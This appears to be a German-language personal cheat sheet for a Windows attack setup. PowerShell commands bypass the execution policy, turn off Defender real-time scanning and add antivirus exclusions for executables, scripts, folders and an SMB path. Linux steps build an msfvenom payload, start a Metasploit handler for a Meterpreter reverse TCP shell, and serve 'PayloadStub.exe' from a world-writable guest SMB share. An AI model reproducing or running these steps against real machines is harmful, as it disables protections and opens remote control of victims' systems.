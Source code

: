 # Notizen – 81a5terfr34k
## Windows: 

### Richtlinien mit Powershell Befehlen ändern:
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

- Payload erstellen: msfvenom
- Meterpreter Listener bereitstellen:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <kali IP>
set LPORT 4444
set ExitOnSession false
exploit -j
````

---

- smbshare Ordner erstellen: sudo mkdir -p /srv/smbshare
- smbshare Ordner zugriff erteilen: sudo chmod -R 777 /srv/smbshare
- Payload nach smbshare Ordner verschieben: mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/
- Inhalt von smbshare kontrollieren: ls -l /srv/smbshare
- SMB Dienst starten: sudo systemctl start smbd
- SMB Dienst status prüfen: sudo systemctl status smbd
- Zugriff auf smbshare testen: smbclient //localhost/share -N
- aktive Samba Konfiguration anzeigen: testparm ( /etc/samba/smb.conf)
- SMB Konfigurations-DATEI bearbeiten: sudo nano /etc/samba/smb.conf  
- NEUEN [share]-Block ganz unten im dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
   
[global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd

